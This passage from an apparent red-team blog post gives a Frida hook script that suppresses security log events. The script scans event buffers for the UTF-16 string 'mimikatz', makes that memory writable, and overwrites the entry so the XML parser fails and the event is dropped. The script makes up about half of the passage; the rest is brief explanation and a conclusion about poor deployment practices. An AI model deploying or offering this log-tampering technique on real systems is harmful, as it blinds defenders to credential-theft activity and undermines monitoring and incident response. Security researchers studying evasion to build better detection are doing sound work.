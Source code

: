 Doing a simple string substitute is useful, but sometimes we might just want to drop specific events. To do so, we can hook the same function using frida and instead of replacing the matched bytes (`mimikatz` in our case) we can break the XML parser and the event will just be dropped.

Now, my Frida skills are pretty limited and therefore I had to ask some help to the Frida master Stefano ([@r3dx0f](https://twitter.com/r3dx0f)). After some classic Italian swearings, we managed to drop the events that matched a particular keyword.
The resulting script is the following:

```

{
onEnter: function (log, args, state) {
    this.ptr = args[7];
    this.size = args[6].toInt32();

  },

  onLeave: function (log, retval, state) {
    var pattern = "6d 00 69 00 6d 00 69 00 6b 00 61 00 74 00 7a 00"; //mimikatz
            var res = Memory.scanSync(
                this.ptr,
                this.size,
                pattern
            );

            if (res.length > 0){
              send("Patching: " + ptr(this.ptr));
              Memory.protect(ptr(this.ptr), 16, "rwx");
                ptr(this.ptr).writeByteArray([0x00,0x00,0x2f,0x00,0x45,0x00,0x76,0x00,0x65,0x00,0x6e,0x00,0x74,0x00,0x3e,0x00])
            }  
  }
}
```
Pretty f***ing evil right?

The difference between this and the previous script is the following: after checking if the `Memory.scanSync` function has more than one result, we go back at `this.ptr` (which is the pointer to the start of the event entry) and add a `0x00,0x00` (null byte, UTF-16) that breaks the entire parsing.

## Conclusion

Elasticsearch is not broken, the world is not ending. This just shows the consequences of bad deployment practices, from a different point of view.

I hope you enjoyed it and if you have any questions reach me on twitter at [@dottor_morte](https://twitter.com/dottor_morte)

## References

* [FuzzySecurity - Application Introspection & Hooking With Frida](https://www.fuzzysecurity.com/tutorials/29.html)
* [FuzzySecurity - Fermion](https://github.com/FuzzySecurity/Fermion)
